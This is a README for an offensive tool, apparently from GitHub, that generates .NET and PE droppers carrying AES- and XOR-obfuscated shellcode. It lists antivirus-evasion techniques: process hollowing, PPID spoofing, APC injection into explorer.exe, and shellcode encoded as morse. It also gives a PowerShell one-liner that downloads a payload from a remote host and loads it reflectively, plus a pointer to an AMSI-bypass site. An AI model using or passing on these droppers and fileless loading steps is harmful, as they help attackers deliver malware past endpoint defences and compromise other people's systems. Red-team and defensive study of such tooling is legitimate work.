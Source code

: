 # Sharperner
**Sharperner** is a tool written in CSharp that generate .NET dropper with AES and XOR obfuscated shellcode. Generated executable can possibly bypass signature check but I cant be sure it can bypass heuristic scanning. 

## Features
### PE binary
* Process Hollowing
* PPID Spoofing
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code :)

### .NET binary
* AES + XOR encrypted shellcode
* APC Process Injection (explorer.exe)
* Random function names
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code :)

## Usage
```
/file       B64,hex,raw shellcode
/type       cs,cpp
/out        Output file Location (Optional)

Example:
Sharperner.exe /file:file.txt /type:cpp
Sharperner.exe /file:file.txt /out:payload.exe
```

## Suggestion
To avoid touching the disk, Generated .NET executable can be loaded reflectively with powershell. AMSI is the enemy now, [amsi.fail](https://amsi.fail) ftw!
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/payload.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[TotallyNotMal.Program]::Main()
```